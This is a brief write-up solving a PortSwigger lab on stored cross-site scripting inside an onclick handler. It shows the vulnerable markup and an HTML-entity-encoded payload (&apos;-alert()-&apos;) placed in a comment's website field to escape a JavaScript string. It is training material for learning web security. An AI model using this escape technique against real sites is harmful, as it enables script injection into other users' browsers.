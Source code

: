 # Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
# https://portswigger.net/web-security/cross-site-scripting/contexts/lab-onclick-event-angle-brackets-double-quotes-html-encoded-single-quotes-backslash-escaped

```bash
# Create a comment and put a to author name.
# inspect q on author name a.

<a id="author" href="https://0a330c.web-security-academy.net/post?postId=10" onclick="var tracker={track(){}};
tracker.track('https://0a330089032ef49f8ad20c3a0009006c.web-security-academy.net/post?postId=10');">a</a>
```

```bash
# Let's focus on attacking website.

http://abc?'alert()'

# Html encode this

http://abc?&apos;-alert()-&apos;

# And create a comment with this website.
``
